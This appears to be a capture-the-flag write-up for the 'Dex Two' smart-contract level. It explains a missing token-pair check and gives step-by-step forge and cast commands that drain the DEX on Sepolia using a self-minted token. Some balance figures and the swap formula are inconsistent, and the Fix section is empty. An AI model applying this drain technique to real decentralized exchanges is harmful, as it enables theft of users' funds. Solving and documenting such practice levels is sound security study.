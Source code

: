 # Dex2

This level requires you to exploit the DexTwo contract, a subtly modified version of the previous Dex contract, in a different manner. Your goal is to drain all balances of token1 and token2 from the DexTwo contract to complete the level.

You begin with 10 tokens each of token1 and token2 and DexTwo contract initially holds 100 tokens each of token1 and token2.

## Vulnerability

We will notice a missing line:

```bash
require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
```

This line is responsible for validating that swapping is only allowed between the two token addresses defined by the contract. Since this requirement is absent in `DexTwo`, we are allowed to swap any tokens, including ones we create. This is the key to draining the`DexTwo` contract.

## Attack

| Dex Two |      |      |Player|      |      |
|---------|------|------|------|------|------|
| token1  |token2|  BTN |token1|token2|  BTN |
| 100     |  100 |  100 |   10 |   10 |  300 |
| 0       |  100 |  200 |  110 |   10 |  200 | swap(token1, BTN)
| 0       |    0 |  300 |  110 |  110 |  0   | swap(token2, BTN)

```bash
function getSwapAmount(address from, address to, uint256 amount) public view returns (uint256) {
    return ((amount * IERC20(to).balanceOf(address(this))) / IERC20(from).balanceOf(address(this)));
}

# It calculates the amount of token2 that will be returned when x amount of BTN is swapped. The formula is rearranged to solve for x, which gives x = 200 BTN. This means that to get all 100 token2 from the Dex, 200 BTN need to be swapped.
# 100 = (x * 100)/200 (200 tokens were minted by the contract)
```

According to the formula in `get_swap_amount()`, to get all the token2 from the Dex2, we need `100 = (x * 100)/200 - x = 200 BTN`. Therefore, we need to swap 200 BTN to get 100 token2. Once this is done, here's how the final balance table will look:

1. Deploy `DeployDex2Attack.sol`.

```bash
forge script script/DeployDex2AttackToken.s.sol --rpc-url $ALCHEMY_RPC_URL --private-key $PRIVATE_KEY --broadcast --verify --etherscan-api-key $ETHERSCAN_API_KEY -vvvv --legacy

# https://sepolia.etherscan.io/address/0xE3B0bd9d2bd8E3B189E76eFcB6B8598B8d9495Ed

# At $CONTRACT_ADDRESS=0xE3B0bd9d2bd8E3B189E76eFcB6B8598B8d9495Ed
# balanceOf 0x64Dd9D94818A2CA2e95c31B084aeF0CC92e86dA2 = 300
```

2. Send 100 BTN from `Dex2AttackToken` to `Dex2`.

```bash
cast send $CONTRACT_ADDRESS "transfer(address,uint256)" $DEX2_ADDRESS 100 --rpc-url $ALCHEMY_RPC_URL --private-key $PRIVATE_KEY --legacy

# https://sepolia.etherscan.io/tx/0x74dc9b1123d966fd2e41651ff32bb91375b20b4d83d2732457971004b0c446ac

# At $CONTRACT_ADDRESS=0xE3B0bd9d2bd8E3B189E76eFcB6B8598B8d9495Ed
# balanceOf 0x64Dd9D94818A2CA2e95c31B084aeF0CC92e86dA2 = 0

# At $DEX2_ADDRESS=0x97e3Bc8E0A6f8550ea7BECcE9aC618f5a438C5F9
# balanceOF
# token address (BTN): 0xE3B0bd9d2bd8E3B189E76eFcB6B8598B8d9495Ed
# Dex2 contract address (DEX2_ADDRESS) : 0x97e3Bc8E0A6f8550ea7BECcE9aC618f5a438C5F9
# equals 300
```

3. Approve `Dex2 address` to spend 300 BTN and enable it to perform the swap later.

```bash
cast send $CONTRACT_ADDRESS "approve(address,uint256)" $DEX2_ADDRESS 300 --private-key $PRIVATE_KEY --rpc-url $ALCHEMY_RPC_URL --legacy

# https://sepolia.etherscan.io/tx/0x9dc038eea6c20bf9ae126fb394bebf8c19180aab05152add84124babe09f5a96
```

4. Execute the swap of both tokens.

```bash
forge script script/DeployDex2AttackSwap.s.sol --rpc-url $ALCHEMY_RPC_URL --private-key $PRIVATE_KEY --broadcast --verify --etherscan-api-key $ETHERSCAN_API_KEY -vvvv --legacy

# At $DEX2_ADDRESS=0x97e3Bc8E0A6f8550ea7BECcE9aC618f5a438C5F9
# balanceOF
# token address (BTN): 0xE3B0bd9d2bd8E3B189E76eFcB6B8598B8d9495Ed
# Dex2 contract address (DEX2_ADDRESS) : 0x97e3Bc8E0A6f8550ea7BECcE9aC618f5a438C5F9
# equals 300
```

## Fix
